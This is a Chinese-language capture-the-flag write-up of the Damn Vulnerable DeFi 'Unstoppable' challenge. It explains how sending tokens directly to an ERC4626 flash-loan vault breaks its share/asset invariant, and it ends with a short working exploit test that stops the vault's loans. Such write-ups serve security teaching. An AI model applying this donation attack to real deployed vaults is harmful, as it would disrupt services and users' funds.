 ```js
        // callback must return magic value, otherwise assume it failed  
        if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))  
            revert CallbackFailed();  
        // pull amount + fee from receiver, then pay the fee to the recipient  
        ERC20(\_token).safeTransferFrom(address(receiver), address(this), amount + fee);  
        ERC20(\_token).safeTransfer(feeRecipient, fee);  
        return true;  
    }
```

观察其中：

```js
uint256 balanceBefore = totalAssets();  
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

结合经济代币模型：**assets**表示用户从 Vault 仓库 (可以理解为代币池) 中存入和取出的基础代币 DAT, Shares 表示存入 DVT 后获得的根据比例获得的 oDVT

`asset`是资产底层通证 `share`就是股权通证 在本题合约中是 1:1 兑换的

```js
// unstoppable.challenge.js  
const TOKENS\_IN\_VAULT = 1000000n \* 10n \*\* 18n;  

await token.approve(vault.address, TOKENS\_IN\_VAULT);  
await vault.deposit(TOKENS\_IN\_VAULT, deployer.address);
```

根据 ERC4626 代币标准[ERC-4626 代币化资金库标准 | ethereum.org](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/)

·totalSupply 只能通过 [mint](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/#mint) 和 [deposit](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/#deposit) 方法将代币存入资金库之前发出

·balanceBefore 可通过 DVT 的 transfer 增加

其实这道题目就是让 `convertToShares(totalSupply) != balanceBefore`

那么我们就可以通过直接调用 token.transfer 这样就不会使 share 发生改变，那么两者就不相等了

那么我们可以直接调用 unstoppable.challenge.js 中 const INITIAL\_PLAYER\_TOKEN\_BALANCE = 10n \* 10n \*\* 18n; 来使不相等，也可以直接发送代币来使之不相等，数额大小无所谓。

Exp:

```js
//unstoppable.challenge.js  
    it('Execution', async function () {  
        /\*\* CODE YOUR SOLUTION HERE \*/  
        // token = token.connect(player);  
        // await token.transfer(vault.address, 一个数值或者调用 INITIAL\_PLAYER\_TOKEN\_BALANCE);  
        await token.connect(player).transfer(vault.address, 任意数值 比如1)  
    });
```
